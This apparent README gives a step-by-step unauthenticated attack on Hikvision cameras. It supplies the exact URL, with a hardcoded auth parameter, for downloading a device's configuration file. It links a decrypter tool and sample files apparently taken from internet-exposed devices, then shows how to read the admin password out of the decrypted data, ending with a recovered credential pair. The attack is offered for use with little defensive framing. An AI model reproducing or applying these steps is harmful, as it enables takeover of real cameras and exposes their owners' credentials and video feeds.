 # Hikvision-BinConfigurationFiles-decrypter

- [About Link](https://bin4xin.sentrylab.cn/about/Hikvision-BinConfigurationFiles-decrypter/)

<h4><li>下载账号密码配置文件 <code>http://{ip.addr:ip.port}/System/configurationFile?auth=YWRtaW46MTEK</code></li></h4>

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe) and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter)
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa)
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa)

##### # Usage:
Open hikvision-decrypter.exe on Windows platform

`Open Configuration File -> Encrypted -> Decrypt Data(Decrypting AES...) -> (Successfully decrypted data) -> Save Configuration File`

##### # Find pass in decrypted data

Open decrypted data with 010 Editor then find admin string 

**Boom! Easy (admin:asdf1234):**

![](../../assets/Hikvision-pass.png)
